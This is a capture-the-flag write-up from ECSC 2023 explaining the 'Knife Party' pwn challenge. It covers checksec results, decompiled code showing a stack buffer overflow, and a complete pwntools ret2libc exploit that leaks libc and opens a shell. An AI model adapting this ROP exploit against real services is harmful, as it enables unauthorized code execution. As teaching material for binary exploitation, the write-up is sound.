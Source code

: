 ```yaml
---
id: 15
title: "ECSC 2023: Knife Party"
subtitle: "ECSC 2023 Day 1: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c++, pwn, ctf, ctf blog, writeup"
---
```


## Foreword

I participated in ECSC 2023 as a guest team as part of Team Singapore with NUS Greyhats. The competition was quite chaotic due to many factors but in the end it was still a fun competitions thanks to all the interesting compeititors. This was a live on-site competition in Hamar, Norway so I was lucky enough to get a free holiday in the middle of my school term as well :)

I mainly did the pwn challenges relating to the stack because I'm not very good at heap pwn, so I left it up to my teammate.

This challenge is a pretty straight forward ret2libc challenge if you read through the decompiled code. It hides its vulnerabilities in a few different functions.

# Knife Party

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d1/knifeparty/knife_party'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```

It has Full RELRO and NX enabled, but no canary or PIE.

First we open the binary in IDA and we see that it calls 3 functions, `setup()`, `banner()` and `forge()`. A quick sift through shows us that `forge()` is the function that handles the menu. Decompiling `forge()` yields the following:

```c++
__int64 forge()
{
  __int64 num; // rax

  printf("Choose class of knife!\n\n1. Sword\n2. Bat\n3. Knife\n\n>> ");
  num = read_num();
  if ( num == 2 )
    return forge_bat();
  if ( num == 3 )
    forge_knife();
  if ( num != 1 )
  {
    error("No such class! Come back when you are ready!\n");
    exit(22);
  }
  return forge_sword();
}
```

Testing the binary against inputs hints us that `forge_knife()` does nothing of value, `forge_bat()` and `forge_sword()` are the functions we are interested in. Opening them up in IDA, we can see that both of the functions have a buffer overflow vulnerability. We focus on `forge_sword()`:
```c++
int forge_sword()
{
  __int64 buf[4]; // [rsp+0h] [rbp-30h] BYREF
  unsigned __int64 num; // [rsp+20h] [rbp-10h]
  unsigned __int64 i; // [rsp+28h] [rbp-8h]

  memset(buf, 0, sizeof(buf));
  printf("\nThe Sword class is pretty accurate and fast when carving a pumpkin!\n\nChoose length of sword (1-5): ");
  num = read_num();
  if ( num - 1 > 4 )
    return error("Invalid length! Come back when you are ready!\n");
  puts(asc_40104F);
  for ( i = 0LL; i <= num; ++i )
    puts(&byte_401056);
  puts(asc_401060);
  printf(
    "\n%s[+] Here is your sword! Do you want to give it a name for the contest?\n\n>> %s",
    "\x1B[1;32m",
    "\x1B[1;34m");
  read(0, buf, 0x120uLL);
  return puts("\nBest of luck!!");
}
```

`buf` is initialized with size `0x30` but at the end before `return`, `read(0, buf, 0x120uLL)` allows a `0x120uLL` size read into the buffer. This means we can attempt a ret2libc attack.

The offset for the bof would be `0x30` (buffer size) + `0x8` (`$rbp`) which gives us `0x38`. We pad `0x38` and do a ret2libc attack, building a ROP chain to leak the lilbc addresses. We then redo the same thing but with the leaked libc offset to find `system` and `/bin/sh`. Build and execute the next ROP chain to pop shell.

pwntools automates the process for us.
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("./knife_party", checksec=False)
# context.log_level = 'debug'
libc = ELF("./glibc/libc.so.6")

# Run binary 1st time
p = exploit_source("./knife_party", "localhost")

rop = ROP(elf)

p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendline("5")
p.recvuntil(">> ")

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

payload = flat([{0x38: p64(pop_rdi)},
                elf.got['puts'],
                elf.symbols['puts'],
                elf.symbols['main']])

# leak libc address and calculate libc base
p.sendline(payload)
p.recvuntil(b'Best of luck!!\n')

libc.address = u64(p.recvline().strip().ljust(8,b'\x00')) - libc.symbols['puts']
success(f"{hex(libc.address) =}")

# ret2libc
p.sendlineafter(b'>> ', "1")
p.recvuntil(": ")
p.sendline("5")
p.recvuntil(">> ")

rop2 = ROP(libc)

libc_ret = rop2.find_gadget(['ret'])[0]
rop2.raw(libc_ret)
rop2.system(next(libc.search(b'/bin/sh')))

payload2 = flat({0x38: rop2.chain()})

p.sendline(payload2)

p.interactive()
```

Run the code on remote, pop shell, then simply `cat flag.txt` for the flag.